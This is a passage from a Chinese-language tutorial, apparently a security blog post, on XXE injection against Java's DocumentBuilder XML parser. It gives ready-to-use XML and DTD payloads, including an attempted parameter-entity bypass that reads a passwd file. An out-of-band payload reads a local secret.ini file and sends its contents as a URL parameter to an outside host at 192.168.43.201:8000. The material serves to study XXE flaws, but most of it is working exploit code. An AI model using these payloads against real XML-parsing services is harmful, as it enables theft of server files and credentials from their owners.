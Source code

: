bypass2.xml

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data [
        <!ENTITY % remote SYSTEM "http://192.168.43.201/xxe/bypass2.dtd">
        %remote;
        ]>
<data attrib='&internal;'/>
```

bypass2.dtd

```
<!ENTITY % payload SYSTEM "file:///e:/passwd">
<!ENTITY % param1 "<!ENTITY internal '%payload;'>">
%param1;
```

未尝试成功。。。

### 4、高级XXE攻击——外带数据(OOB)通道

即没有回显的XXE情况。

此时先将Demo代码的输出注释掉：

![img](https://www.mi1k7ea.com/2019/02/13/XML%E6%B3%A8%E5%85%A5%E4%B9%8BDocumentBuilder/9.png)

#### XXE OOB 攻击

主要是通过URL参数的形式将数据外带出去。

需要注意，这种方法外带数据遇到特殊字符就会报错，服务端接收不到外带数据！

oob.xml

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://192.168.43.201/xxe/oob.dtd">
<data>&send;</data>
```

oob.dtd

```
<!ENTITY % file SYSTEM "file:///e:/secret.ini">
<!ENTITY % all "<!ENTITY send SYSTEM 'http://192.168.43.201:8000/?%file;'>">
%all;
```

先外带无特殊字符的文件内容，可以看到通过URL参数的形式外带出来了：

![img](https://www.mi1k7ea.com/2019/02/13/XML%E6%B3%A8%E5%85%A5%E4%B9%8BDocumentBuilder/10.png)

当外带如passwd等含有换行符或尖括号等文件内容时会报错，接收不到数据：

![img](https://www.mi1k7ea.com/2019/02/13/XML%E6%B3%A8%E5%85%A5%E4%B9%8BDocumentBuilder/11.png)
